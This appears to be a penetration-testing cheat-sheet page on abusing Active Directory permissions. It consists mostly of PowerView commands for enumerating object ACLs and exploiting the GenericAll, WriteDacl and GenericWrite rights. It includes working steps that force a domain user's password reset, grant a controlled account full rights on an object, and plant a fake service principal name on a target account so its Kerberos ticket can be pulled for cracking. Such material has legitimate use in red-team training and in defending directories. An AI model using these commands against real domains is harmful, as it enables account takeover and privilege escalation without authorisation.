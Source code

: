 ```csharp
Get-DomainComputer -domain domain.com | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}  | select identity,ObjectDN,ActiveDirectoryRights | ft | Out-File test.txt
```

### GenericAll 

* change password, force password reset and so on. Full control on the object

```csharp
net user victim password /domain
```

### WriteDacl

{% hint style="info" %}
Allow to modify the DACL itself. Allow to apply additional access rights such as GenericAll, GenericWrite, or even DCSync .
{% endhint %}

* Grant Generic all on OwnedService account using the WriteDacl.

```csharp
Add-DomainObjectAcl -TargetIdentity <OwnedObject> -PrincipalIdentity <myuser> -Rights All
```

### GenericWrite

```csharp
Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} |  Where-Object {$_.ActiveDirectoryRights -like "*GenericWrite*" }
```

#### Set up a ServicePrincipal name on the target account 

```csharp
Set-DomainObject -Identity ownedservice -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
$User = Get-DomainUser iwnedservice
$User | Get-DomainSPNTicket | fl
```

![](../../../../.gitbook/assets/image%20%2810%29.png)

```

```
